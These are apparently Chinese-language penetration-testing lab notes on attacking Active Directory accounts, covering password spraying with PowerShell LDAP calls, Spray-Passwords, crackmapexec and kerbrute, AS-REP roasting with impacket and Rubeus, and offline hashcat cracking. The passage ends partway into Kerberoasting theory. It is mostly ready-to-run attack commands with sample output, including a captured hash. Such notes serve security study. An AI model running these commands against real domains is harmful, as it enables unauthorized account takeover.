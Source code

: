 # 密码攻击 
使用密码攻击之前，要知道域中帐号不能使用密码爆破技术，因为含有帐号保护机制，所以只能使用密码喷射（已知密码，尝试用户），利用很小的字典尝试密码组合 
`net accounts ` 通过net accounts命令得知该用户的密码策略
重要条目：
`Minimum password length:  7 `  最小密码长度
`Lockout threshold:   5 `  尝试错误5次锁定
`Lockout duration (minutes):   30 ` 锁定30分钟



## 使用LDAP和ADSI对用户进行密码喷射
在域环境中，使用LDAP和ADSI利用DirectoryEntry函数进行密码喷射，获取域环境中密码对应的用户名 
`$PDC=[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name`
`$DN=([asdi]'').distinguishedName`
`$LDAP="LDAP://$PDC/$DN"`
`New-Object System.DirectoryServices.DirectoryEntry($LDAP,"pete","password")`
在输入用户名和密码后会返回信息
如果pete的密码正确，则会输出该用户信息：
`distinguishedName : {DC=corp,DC=com}`
输入错误密码会输出以下：
`format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or password is incorrect.`



## 使用spray-passwords脚本密码喷射
使用spray-passwords脚本对域环境中的用户进行密码喷射
`.\Spray-Passwords.ps1 -Pass abc123 -Admin`
-Pass参数代表要进行的密码喷射密码，-Admin代表也测试管理员密码
Spray-Passwords脚本或自己枚举用户，不需要输入用户名就可以进行密码喷射
最后输出：
` 'pete' with password: 'abc123'`
` 'jen' with password: 'abc123'`
如果用户密码正确就会显示



## 使用SMB进行密码喷射
传统攻击AD的密码喷射方法-使用crackmapexe工具爆破用户名，但是每次会建立完整的SMB链接，所以速度也是最慢的，而且流量也会很嘈杂 
`crackmapexec smb 10.10.10.100 -u userlist -p 'abc123' -d corp.com --continue-on-success`
**注意一点，crackmapexec不会查找帐号密码策略，一旦超过错误次数则会失败**
有时使用crackmapexec会出现 (Pwn3d!) 字样，表示该用户和密码是该机的管理员


```txt
结果：
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [-] corp.com\dave:abc123 STATUS_LOGON_FAILURE 
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\jen:abc123
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\pete:abc123
```


## 使用TGT进行密码喷射
除了从正常角度对密码对应的账户进行密码喷射，来可以利用TGT协议来进行，发送AS-REQ 的udp包来进行密码尝试，而且返回也会是udp包 AS-REP，如果成功则会得到该用户的TGT票据，否则不会 
一般密码喷射作为后备方法
`.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernamelist "abc123"`
最后输出：
`2022/09/06 20:30:48 >  [+] VALID LOGIN:  jen@corp.com:abc123`  该条目表示得到用户对应的密码



# AS-REP Roasting
原理：
如果设置了**不需要keberos预认证**，则可以使用AS-REP烧烤获取域用户的密码。
如果不需要kerberos预认证则，我们可以代表任何AD用户向KDC请求TGT（包含用户密码），因为不需要传输包含由用户密码加密的时间戳，这时获取到含有TGT的AS-REP后，可以离线爆破密码
一般常见域环境中是默认开启预认证的，但是不排除个别需要关闭预认证，有些应用依赖与关闭预认证

## 使用impacket进行AS-REP Roasting攻击
首先要**确保域环境没有开放keberos预认证**，然后就可以使用工具impacket对域中任意一个主机发起AS-REP攻击，发送请求获取对应用户的TGT，从中离线破解出用户密码 
`impacket-GetNPUsers -dc-ip 192.168.100.10 -request -outputfile arproast.hash corp.com/pete`
-dc-ip 指的是KDC的地址，-request 代表请求TGT 最后包括一个用户认证corp.com/pete，最后输入密码可以得到含有TGT的AS-REP
输出结果中发现dave用户没有开启keberos预认证
`dave            2022-09-02 19:21:17.285464  2022-09-07 12:45:15.559299  0x410200`   从中就可以利用pete用户权限获得dave用户的TGT
然后使用hashcat爆破密码
`hashcat --help | grep -i "kerberos"`
`hahscat -m <code> arproasting.hash /wordlist -r /rules --force`



## 使用Rubeus攻击
Rubeus是一款利用kerberos滥用的工具集，我们可以使用该工具进行AS-REP roasting攻击 
`.\Rubeus.exe asreproast /nowrap`
asreproast 代表使用asrep roasting攻击，/nowrap 代表在输出hash时利用空行分开
最终会输出
`[*] SamAccountName         : dave`
`[*] DistinguishedName      : CN=dave,CN=Users,DC=corp,DC=com`
`[*] AS-REP hash:`
`$krb5asrep$dave@corp.com:AE43CA9011CC7E7B9E7F7E7279DD7F2E$7D4C59410DE2984EDF35053B7954E6DC9A0D16CB5BE8E9DCACCA88C3C13C4031ABD71DA16F476EB972506B4989E9ABA2899C042E66792F33B119FAB1837D94EB654883C6C3F2DB6D4A8D44A8D9531C2661BDA4DD231FA985D7003E91F804ECF5FFC0743333959470341032B146AB1DC9BD6B5E3F1C41BB02436D7181727D0C6444D250E255B7261370BC8D4D418C242ABAE9A83C8908387A12D91B40B39848222F72C61DED5349D984FFC6D2A06A3A5BC19DDFF8A17EF5A22162BAADE9CA8E48DD2E87BB7A7AE0DBFE225D1E4A778408B4933A254C30460E4190C02588FBADED757AA87A`
自动枚举那个用户没有开启keberos预认证，并且获取他的TGT票据，使用hashcat离线爆破



# Kerberoasting
原理：
通过AS-REQ和AS-REP，主机获得了TGT和logon session，本地利用用户密码解密logon session并缓存本地，然后利用TGT票据想KDC购买TGS服务的ST票据
接收到TGS-REQ后，KDC会验证是否正确，返回TGS-REP，其中包含对应服务SPN的NTLM hash
只要TGT正确，就都会返回ST服务票据，这也是kerberoasting能利用的原因，任何一个用户，只要hash正确，就可以请求域内任何一个服务的ST票据
